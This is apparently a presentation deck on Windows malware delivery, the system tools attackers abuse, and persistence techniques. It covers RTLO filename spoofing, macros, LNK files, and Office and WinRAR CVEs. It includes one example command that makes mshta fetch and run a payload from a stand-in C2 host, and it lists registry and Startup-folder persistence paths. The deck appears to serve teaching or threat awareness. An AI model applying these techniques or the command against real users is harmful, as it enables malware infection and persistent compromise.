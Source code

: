 # Exploit Tech

DuckLL  
2019/11/12 <!-- .element: align="right" -->

--

# Exploit Flow

1. Get control to execution
1. Leverage system tools (optional)
1. Run malware
1. Persistence

---

# Deploy method

--

# Fake Doc

- Word, PDF, Excel... icon
- PE file (.exe)
- 👍: Only need to change icon of PE.
- 👎: The filename extension will be discovered, if user turns on the setting.

--

# RTLO

- A special character
- UNICODE `202e`
- decoy[RTLO]cod.exe -> decoy‮cod.exe
- 👍: Solving the filename extension problem.
- 👎: There is a weird string "exe" at the end of filename

--

# Macro

- VBA scripts in Office documents
- 👍: Stable and high compatibility.
- 👎: In default, the victim should enable macro manually.

--

# LNK

- Word, PDF, Excel, etc ICON
- Can launch program with arguments
- ex: `mshta.exe http://c2.com/payload.hta"
- 👍: Nice decoy icon. And it's easy to leverage system tools.
- 👎: There is a arrow in the bottom right of icon.

--

# OLE Exploit

- RTF file (.rtf)
- EQNEDT32.EXE
- CVE-2017-11882: stackoverflow during font name parse
- CVE-2018-0802: stackoverflow during font name parse
- CVE-2018-0798: stackoverflow during matrix record parse
- 👍: Stable and automatical execution
- 👎: Old 1 day, can't execute on patched version

--

# CVE-2018-20250

- Win RAR exploit
- Writing files into relative path
- 👍: This kind of vulnerability is rare. The decoy content can be various.
- 👎:
  1. The victim didn't use "decompress here" in specified location.
  1. The malware will not execute immediately.

--

# Remote Object

- Download online documents which contain exploit or macro
- 👍: The actor can change or remove the 2nd-stage document.
- 👎: Same as exploit documents and macro documents.

---

# System Tools

--

# Command Line

- cmd.exe (xxx.bat)
- A simple shell to launch other program

--

# Powershell

- powershell.exe (xxx.ps1)
- Very powerful shell
  - run scripts
  - run PE in memroy

--

# VBScript

- cscript.exe (xxx.js)
- run scripts

--

# HTA

- mshta.exe (xxx.hta)
- download and run online scripts
- run scripts

---

# Persistence

--

# Registry

- Add a key value into registry
- ex: `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
- Trigger while user login

--

# File

- Put files into specified folder.
- ex: `%appdata%\Microsoft\Windows\Start Menu\Programs\Startup`
- Trigger while user login

--

# ScheduledTask

- Add a new Windows task scheduler
- Trigger by time

--

# WMI

- Windows Management Instrumentation
- WMI can be used to install event filters, providers, consumers, and bindings that execute code when a defined event occurs.
- Run Windows Management Object (.mof) scripts
- Trigger while user login, if there is a LOGIN event filter.

